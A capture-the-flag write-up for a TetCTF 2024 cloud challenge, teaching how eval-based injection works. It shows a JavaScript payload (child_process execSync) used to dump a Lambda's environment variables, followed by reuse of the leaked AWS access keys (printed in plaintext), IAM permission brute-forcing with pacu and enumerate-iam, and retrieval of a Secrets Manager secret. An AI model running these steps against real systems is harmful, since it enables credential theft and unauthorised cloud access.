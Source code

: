# Challenge link
URL:      [https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome to TetCTF!"](https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome_to_TetCTF!") 

(maybe the server was shut down)

# Challenge description
Let’s see what you can do with this vulnerable API GW endpoint.
Note: AWS Account is not needed for this challenge

# Challenge source file
Blackbox

# Catergory
Web/cloud service exploitation

# Difficulty
Hard

# Author
Chi Tran (Twitter: @imspicynoodles) (Discord: iam.chi)

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/7da8df0c-c3ba-491b-8cc4-a4840e944830)

- There is a parameter on the URL. I tried to modify it:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/b1d4e2c7-166a-4264-b4d6-e73e1e497257)

- The message is "Evaluated User Input" so I think they used *eval()* in the backend, so we can gain RCE. After a while, I realized that they use Javascript for the backend. This is my payload:
  ```
  process.env
  Or you can use this to read other things on the server:
  require('child_process').execSync('env', {encoding: 'UTF-8'}).trim().split('\n')
  ```
  (I switched to Burpsuite for convenient)
  
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a18acd23-cb01-450f-9b90-70008e157fc7)

- The challenge is hosted on AWS service and I see some interesting thing like AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY so I search for it on google. There are a few post I found it interesting:
  
  [https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167](https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167)
  
  [https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja](https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja)
  
  [AWS exploit cheatsheet](https://github.com/pop3ret/AWSome-Pentesting/blob/main/AWSome-Pentesting-Cheatsheet.md)
  
- I knew that this website use AWS lambda service. Usually, when deployed, AWS cloud saves information about itself in the Linux server as environment variables, including sensitive things like sessionID, secret key, ... I had all of them, the next mission is exploiting the AWS cloud.

# Problem-solving
  ## Find a priviledged account 
  - I install AWS CLI on my WSL and use those three token:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/14c77bfa-8d67-4954-9103-23b71b7672cb)

  - Set environment variables (AWS cloud service's requirement to access an user account):
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d11e24ef-5239-4656-88e4-ee895d46668f)

  - Now it's time to check if the account is set. I use this AWS command:
    ```
    aws sts get-caller-identity
    (It has the same meaning as *whoami* in Linux)
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/025f4254-4efd-40ca-8fe5-6d5a3d012bf6)

  - AWS S3 is a service that used to storing data of the cloud server. After reaading the cheatsheet (link above), I tried a s3 command:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/c714633d-7834-41b1-9652-5f22fd296434)

  - Maybe this account has restricted priviledge. Since AWS has so many service and command, I used this tool to bruteforce account's priviledge:
    
    [Source code Github](https://github.com/RhinoSecurityLabs/pacu)
    
    Command to install:
    ```
    pip3 install -U pacu
    ```

  - Use pacu to bruteforce priviledge:
    Create new attack session:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a30441b5-07e7-4271-9017-377b2787fd6d)

    Use *ls* to list all the command of the tool. In this scenario, I use *iam__bruteforce_permissions*:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/e82956b2-b214-44de-8c55-6faab1d2e1c2)

    Type Y to accept, and wait for it.

  - After a while, the bruteforce result tell me that this account has very stricted priviledge and cannot do anything more:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d1067780-a9f7-4072-b534-27db5a3aebb5)
    (some not interesting commands)

  - To ensure that, I also use another tool:
    [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

  - And it didn't find anything else:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d3cc96b9-d135-49b2-bbd8-99101a30a296)

  - This is very tricky, so I have to read again all the documents and information I've retrieved. But there is a thing:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/565ce8d0-4897-4797-9eb4-1966222361d4)

  - Other writeups do not have this token. This is so weird, so I asked a cloud engineer about this. He said that the token I used is for execution role but it doesn't have any priviledge. He also said that AWS lambda can ignore that token and use the pre-defined token saved in the environment variable. So, that means the ENV_ tokens above are the correct tokens.

  - Re-setup those token:
    ```
    unset AWS_SESSION_TOKEN (this session token is for execution role that do not have any priviledge, so I have to remove it)
    export AWS_ACCESS_KEY_ID='AKIAX473H4JB76WRTYPI' (replace with the value of ENV_ACCESS_KEY token)
    export AWS_SECRET_ACCESS_KEY='f6N48oKwKNkmS6xVJ8ZYOOj0FB/zLb/QfXCWWqyX' (replace with the value of ENV_SECRET_ACCESS_KEY token)
    ```
  - Then re run this command to check if the setup is done:
    ```
    aws sts get-caller-identity
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/0d4505b5-b6c0-4fd8-b272-e738410dc517)

  - HURRAYYYYYYY!

  ## Bruteforce priviledge
  - After gaining access to secret-user, I should check what command can this user do. I use the enumerate-iam tool for this purpose because it's faster:
    ```
    python3 enumerate-iam.py --access-key AKIAX473H4JB76WRTYPI --secret-key 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 --region ap-southeast-2
    ```
    You can find region in AWS leaked information above.

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/173c95e2-a98e-47d5-9328-8d8a9beaa273)

  - The result give me a suspicious command: *secretsmanager.list_secrets()*. I asked chatGPT about it and get the correct syntax:
    ```
    aws secretsmanager list-secrets
    ```
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/4d29e816-2502-4bc1-a4ad-8222d5013f2c)

  - Now I use this command to read the secret:
    ```
    aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:ap-southeast-2:543303393859:secret:prod/TetCTF/Flag-gnvT27
    ```

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/193788ae-1db1-407f-9b41-1a374fb5df9f)

  - Flag: TetCTF{B0unTy_$$$-50_for_B3ginNeR_2a3287f970cd8837b91f4f7472c5541a}
